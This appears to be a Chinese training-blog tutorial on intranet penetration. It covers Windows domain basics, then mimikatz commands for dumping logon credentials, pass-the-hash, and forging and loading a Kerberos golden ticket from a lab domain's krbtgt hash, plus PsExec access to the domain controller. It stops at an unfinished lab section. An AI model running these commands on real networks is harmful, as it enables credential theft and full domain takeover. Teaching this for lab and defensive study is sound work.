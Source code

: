 # 原创
：  内网渗透（二）

# 内网渗透（二）

### 预备知识

##### 什么是域？

域是若干台计算机组成的集合，一个电脑也是。域中的电脑是分等级的，分为域控和成员机。

##### 如何安装域？

在服务器管理中添加服务器角色，添加域服务

##### 如何加入域?

首先一定要修改DNS服务器 ip为域控的ip，再使用域控的账号密码登录就可以加入了，账号的形式 域名/域控账号

##### 哈希传递

当我们使用猕猴桃进行碰撞密码时，我们发现会没有明文出现，是因为高版本的windows是不会将明文密码保存在本机的。所以我们可以使用哈希传递拿取管理员权限。

使用语句：<br/> privilege::debug<br/> log<br/> sekurlsa::logonpasswords<br/> sekurlsa::pth /user: 用户名 /domian “域名” /ntlm: ntlm值

提取成功就会跳出获取权限的cmd框

##### PsExec的作用

能够使用域控的cmd

##### 黄金票据

因为krbtgt账户其实就是那个KDC秘钥分发中心用的超管密码，我们拿着那个的票据，去访问客户机，客户机会认为我们是KDC秘钥分发中心，所以直接给了最高的权限允许我们访问，一般管理员会修改域控机密码，但是很少有管理员会修改Krbtgt的密码

我们通过以下语句来制作黄金票据

lsdump::dcsync /user:krbtgt 获取krbtgt的密码

提取其中的sid(不需要后面的-的数据) 和 hashNTLM

kerberos::golden /admin:administrator /domain:zkaq.cn /sid:S-1-5-21-1720693672-3610745784-2269473857 /krbtgt:1176ad25a126d316ed5ea4b60b3d71dd /ticket:administrator.kiribi （制作票据）

kerberos::ptt administrator.kiribi （加载票据）

然后打开cmd 再利用 PsExec 获取域控cmd

### 靶场实战

一、远程连接<br/> 根据提示：

<br/> 连接：
